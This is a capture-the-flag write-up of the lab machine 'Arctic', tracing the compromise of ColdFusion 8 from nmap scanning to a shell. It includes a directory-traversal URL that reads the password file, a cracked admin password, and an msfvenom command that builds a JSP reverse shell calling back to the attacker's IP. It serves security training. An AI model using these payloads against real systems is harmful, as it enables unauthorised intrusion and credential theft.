 ```yaml
---
description: 10.10.10.11
---
```


# Arctic

## Nmap

```
sudo nmap -Pn -p- 10.10.10.11 --min-rate=5000
```

![](<../../../../.gitbook/assets/image (8) (1).png>)

Ran a script script based on open ports

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Aug 10 16:56:59 2022 as: nmap -Pn -p135,8500,49154 -sCV -O -v -oN script-scan.txt 10.10.10.11
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.040s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Wed Aug 10 16:46:55 2022)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 16:59:18 2022 -- 1 IP address (1 host up) scanned in 139.14 seconds
```
{% endcode %}

## FMTP Port 8500

{% embed url="https://www.eurocontrol.int/service/flight-message-transfer-protocol-address-coordination" %}

> Flight Message Transfer Protocol (FMTP) is a communication stack based on the transmission control and internet protocols (TCP/IP). It is used in a peer-to-peer communication context for the information exchange between flight data processing systems for the purpose of notification, coordination and transfer of flights between air traffic control units and for the purposes of civil-military cooperation.

I look to see if there's anything interesting that can be looked at on the browser on this particular port

![](<../../../../.gitbook/assets/image (5) (1).png>)

Clicking on `CFIDE` leads to some pretty interesting findings

![](<../../../../.gitbook/assets/image (11) (1).png>)

I'm most interested in the `administrator` link, so going there takes me to an Admin page!

![](<../../../../.gitbook/assets/image (7) (1).png>)

## Searchsploit

I search for any public exploits in searchsploit

![](<../../../../.gitbook/assets/image (9) (1).png>)

The Remote Code Execution python script catches my eye so I'll view that one

![](<../../../../.gitbook/assets/image (6) (1).png>)

{% embed url="https://www.exploit-db.com/exploits/50057" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265" %}

> Multiple directory traversal vulnerabilities in FCKeditor before 2.6.4.1 allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the editor/filemanager/connectors/ directory.

## Foothold #1 - RCE Script

This python script does it all! We'll change the listening host IP and port number (in case firewall rules don't like weird port numbers)&#x20;

Then we run it and get a shell!

![](<../../../../.gitbook/assets/image (2) (1).png>)

## Foothold #2 - Directory Traversal

There was also a metasploit module for directory traversal. I was curious about it so I checked it out and found this

{% embed url="https://www.exploit-db.com/exploits/14641" %}

![](<../../../../.gitbook/assets/image (4) (1).png>)

I decided to do this without the python script since you technically don't need to

{% code overflow="wrap" %}
```
http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
{% endcode %}

As you can see, there's a password that's encrypted, so we should crack it.

### Cracking the hash

![](<../../../../.gitbook/assets/image (18) (2).png>)

```
happyday
```

&#x20;Because we have a password, we can log in!

![](<../../../../.gitbook/assets/image (15).png>)

### Getting a shell

This is an excellent resource I found that could assist with getting a reverse shell

{% embed url="https://pentest.tonyng.net/attacking-adobe-coldfusion/" %}

Generate our payload with  msfvenom

{% code overflow="wrap" %}
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > revshell.jsp
```
{% endcode %}

Schedule a New Task

![](<../../../../.gitbook/assets/image (10).png>)

Make sure to save the output to a file in a valid directory. I had to check for what it was on google

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

![](<../../../../.gitbook/assets/image (8).png>)

Before you run the scheduled task, make sure to have a web server (I use python) running so it will download your payload

![](<../../../../.gitbook/assets/image (4).png>)

![](<../../../../.gitbook/assets/image (1) (1).png>)

![](<../../../../.gitbook/assets/image (7).png>)

Now start your listener and go to the file in your web browser to catch a shell!

![](<../../../../.gitbook/assets/image (12).png>)

## Priv Esc

### SystemInfo

![](<../../../../.gitbook/assets/image (14).png>)

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### whoami /all

![](<../../../../.gitbook/assets/image (16).png>)



## Windows Exploit Suggester

![](<../../../../.gitbook/assets/image (3) (3).png>)

{% embed url="https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled" %}

I've seen online people using this, however I cannot get it work

## Resources

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

